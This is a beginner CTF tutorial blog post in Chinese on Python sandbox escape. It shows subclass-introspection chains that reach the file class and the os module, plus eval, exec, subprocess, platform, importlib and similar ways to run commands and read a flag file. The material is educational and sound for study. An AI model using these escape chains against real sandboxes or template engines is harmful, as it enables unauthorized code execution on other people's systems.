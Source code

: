 ```yaml
---
tags:
  - CTF-WEB
categories:
  - CTF-WEB
date: 2020-02-06 19:45:00
cover: /img/post/11.jpg
---
```


---
>**说明：本篇文章适合这方面的小白的入门，结合我的另一篇文章[https://blog.csdn.net/zss192/article/details/104199520](https://blog.csdn.net/zss192/article/details/104199520)更容易理解**
## 一些常见的寻找特殊模块的方式
    __class__:获得当前对象的类
    __bases__:列出其基类
    __mro__ :列出解析方法的调用顺序，类似于bases
    __subclasses__()：返回子类列表
    __dict__ ： 列出当前属性/函数的字典
    __init__  : 一般跟在类的后面，相当于实例化这个类
    __globals__ : 以字典的形式返回函数所在的全局命名空间所定义的全局变量
```python
>>> [].__class__
<type 'list'>
```
**python的内置对象有一个class属性来存储类型，我们可以使用base属性往上找他的父类**
```python
>>> [].__class__.__base__
<type 'object'>
```
**得到object对象后之后我们可通过属性subclasses来查看object的所有子类**

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```
**而在这所有子类中file类可读取文件，我们可以通过index查找file类的位置（file类只在python2存在）**

```python
>>> [].__class__.__base__.__subclasses__().index(file)
40
```
**我们可用下列代码读取目标文件**

```python
[].__class__.__base__.__subclasses__()[40]('./flag.txt').read()
```
**我们可用下列代码引用指定模块（eg:os模块）**

```python
>>> [].__class__.__base__.__subclasses__()[71].__init__.__globals__['os']
<module 'os' from '/usr/lib/python2.7/os.pyc'>
```
**上面的语句相当于os我们便可像往常用os来使用了，比如使用os模块的listdir**

```python
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir("./")
```
**上面语句等同于使用os.listdir("./")**

## Python中可以利用的方法和模块
###### 1.任意代码或者命令执行
_ import _()函数

```python
__import__("os").system("ls")
```

timeit模块	

```python
import timeit
timeit.timeit("__import__('os').system('ls')",number=1)
```

exec()，eval()，execfile()，compile()函数

```python
eval('__import__("os").system("ls")')
exec("a+1")
compile('a = 1 + 2', '<string>', 'exec')
```

    注意：execfile()只存在于Python2，Python3没有该函数

platform模块

```python
import platform
platform.popen('dir').read()
```

os模块

```python
import os
os.system('ls')
os.popen("ls").read()
```
subprocess模块

```python
import subprocess
subprocess.Popen('ls', shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT).stdout.read()
```

importlib模块

```python
import importlib
importlib.import_module('os').system('ls')
#Python3可以，Python2没有该函数
importlib.__import__('os').system('ls')
```
#### 2.文件操作
file()函数

```python
file('test.txt').read()
#注意：该函数只存在于Python2，Python3不存在
```


open()函数
```python
open('text.txt').read()
```
codecs模块

```python
import codecs
codecs.open('test.txt').read()
```
###### tips:做这类题时有固定的格式，只不过有时需要绕过下，本篇文章只涉及基础讲解不牵扯绕过姿势。
## 参考
[Python沙箱逃逸总结](https://hatboy.github.io/2018/04/19/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E6%80%BB%E7%BB%93/)
[python sandbox escape](https://blog.0kami.cn/2016/09/16/old-python-sandbox-escape/)





